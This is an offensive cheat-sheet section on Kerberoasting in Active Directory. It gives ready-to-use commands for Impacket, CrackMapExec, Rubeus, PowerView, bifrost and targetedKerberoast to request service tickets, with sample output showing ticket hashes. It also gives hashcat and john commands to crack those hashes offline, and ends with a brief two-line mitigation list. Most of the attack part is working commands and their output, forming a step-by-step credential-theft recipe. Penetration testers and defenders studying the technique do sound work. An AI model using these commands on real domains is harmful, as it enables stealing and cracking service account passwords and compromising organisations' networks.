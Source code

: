## Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (ST) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.

- [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite
    
    ```
    $ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
    Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies
    
    ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
    --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
    active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 
    
    $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
    ```
    
- CrackMapExec Module
    
    ```
    $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
    LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
    LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
    ```
    
- [Rubeus](https://github.com/GhostPack/Rubeus)
    
    ```
    # Stats
    Rubeus.exe kerberoast /stats
    -------------------------------------   ----------------------------------
    | Supported Encryption Type | Count |  | Password Last Set Year | Count |
    -------------------------------------  ----------------------------------
    | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
    -------------------------------------  ----------------------------------
    
    # Kerberoast (RC4 ticket)
    Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt
    
    # Kerberoast (AES ticket)
    # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
    Rubeus.exe kerberoast /tgtdeleg
    
    # Kerberoast (RC4 ticket)
    # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
    Rubeus.exe kerberoast /rc4opsec
    ```
    
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
    
    ```
    Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
    ```
    
- [bifrost](https://github.com/its-a-feature/bifrost) on **macOS** machine
    
    ```
    ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
    ```
    
- [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
    
    ```
    # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), 
    # print the "kerberoast" hash, and delete the temporary SPN set for that operation
    targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
    ```
    

Then crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`)

| Mode | Description |
| --- | --- |
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```

Mitigations:

- Have a very long password for your accounts with SPNs (> 32 characters)
- Make sure no users have SPNs